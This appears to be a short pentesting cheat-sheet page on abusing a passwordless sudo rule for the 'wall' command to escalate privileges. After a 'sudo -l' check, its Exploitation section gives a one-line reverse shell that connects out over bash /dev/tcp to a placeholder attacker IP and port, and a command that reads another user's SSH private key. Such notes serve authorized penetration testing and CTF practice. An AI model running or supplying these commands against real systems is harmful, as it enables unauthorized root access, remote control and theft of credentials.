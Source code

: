 ```yaml
---
title: Sudo Wall Privilege Escalation
description: Wall command can display the result of OS command. Executing as root might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Investigation

```sh
sudo -l

(ALL) NOPASSWD: wall
```

<br />

## Exploitation

```sh
# Reverse shell
sudo wall "$(bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1')"

# Gets a SSH private key of another user
sudo wall "$(cat /home/user/.ssh/id_rsa)"
```
